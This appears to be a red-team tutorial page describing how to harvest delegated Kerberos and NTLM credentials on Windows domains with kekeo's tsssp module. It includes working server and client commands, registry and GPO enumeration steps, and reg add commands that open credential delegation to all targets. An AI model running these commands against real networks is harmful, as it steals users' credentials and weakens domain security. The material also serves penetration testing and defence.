 ```yaml
---
title: "CredentialDeligation"
date: 2020-03-06T13:02:27+01:00
draft: false
weight: 60
---
```


## Dumping Delegated Default Kerberos and NTLM Credentials w/o Touching LSASS

This is possible due to Active Directory feature called Credentials Delegation.

### Credential Delegation

Credential Delegation is a feature that allows domain administartors to authorize certain machines or to be more precise - certain SPNs, to accept delegated passwords. In other words, this means that certain services on certain machines can be set to allow users to authenticate without the need to supply their credentials interactively - almost like a Single Sign On.

### Dumping Kerberos Credentials

If credential delegation is set up, credentials can be dumped without touching lsass with a tool called kekeo.

Let's spin up a tsssp named pipe server where targets of whom the credentials we want to steal, will connect to, on the compromised workstation ws01 \(running as SYSTEM\):

```text
// needs to run as NT SYSTEM
tsssp::server
```
Now, let's connect to the tsssp server on ws01 from the target computer ws02 \(we want currently logged on user's from ws02 credentials to be stolen by being sent to the tsssp server on ws01 over the named pipe\):


```text
tsssp::client /target:termsrv/ws01.offense.local /pipe:\\ws01.offense.local\pipe\kekeo_tsssp_endpoint
```

### Dumping NTLM Credentials

The same technique applies to NTLM authentication. For the technique to work with NTLM credentials, below needs to be enabled in AD in Computer Configuration &gt; Policies &gt; Administrative Templates &gt; System &gt; Credential Delegation:

Differently from dumping kerberos credentials, the NTLM delegated credential dumping attack can be performed locally on the target system - we only need two kekeo instances running as low privileged users, unlike with kerberos credential dumping where the tsssp server had to be running as SYSTEM.

Let's spin up the server on one console:

```text
// running as ws02\spotless
tsssp::server
```

And connect to it from another console:

```
// running as ws02\spotless
tsssp::client /target:termsrv/ws02.offense.local
```

### Enumerating Delegated Credentials Locally

Once on the box, we can check if credential delegation is turned on:

```text
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation
```

Below shows what credential delegation is enabled on the system \(represented with 0x1\):

We can then check what SPNs accept delegated credentials:

```text
HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation\AllowDefaultCredentials
```

Below shows that the box we have access to is allowed to delegate credentials to all termsrv SPNs - all RDP services:


### Enumerating Delegated Credentials via AD

```csharp
gpresult /h report.html
## or Get-GPOReport if you have access to AD admin tools
```

Additionally, we can use [Parse-Polfile](https://github.com/PowerShell/GPRegistryPolicyParser) to parse the registry.pol of the linked GPO. First of, let's find the GPO that is being applied to the user spotless:

```text
Get-NetGPO -UserIdentity spotless
```

and then parse the policy file:

```text
Parse-PolFile -Path "\\offense.local\sysvol\offense.local\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Registry.pol"
```

### Enabling Credential Delegation

If you have admin rights on the compromised box, you can enable all credential delegation like so:
```csharp
reg add HKLM\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation /v AllowDefaultCredentials /t REG_DWORD /d 1
reg add HKLM\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation /v ConcatenateDefaults_AllowDefault /t REG_DWORD /d 1
reg add HKLM\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation\AllowDefaultCredentials /v 1 /t REG_SZ /d "*"
reg add HKLM\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation /v AllowDefCredentialsWhenNTLMOnly /t REG_DWORD /d 1
reg add HKLM\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation /v ConcatenateDefaults_AllowDefNTLMOnly /t REG_DWORD /d 1
reg add HKLM\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation\AllowDefCredentialsWhenNTLMOnly /v 1 /t REG_SZ /d "*"

## delete all
reg delete HKLM\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation /f
```

### References

[clement.notin.org](https://clement.notin.org/blog/2019/07/03/credential-theft-without-admin-or-touching-lsass-with-kekeo-by-abusing-credssp-tspkg-rdp-sso/)

[GPRegistryPolicyParser](https://github.com/PowerShell/GPRegistryPolicyParser)

[source](https://github.com/mantvydasb/RedTeam-Tactics-and-Techniques/blob/master/offensive-security/credential-access-and-credential-dumping/dumping-delegated-default-kerberos-and-ntlm-credentials-without-touching-lsass.md) 
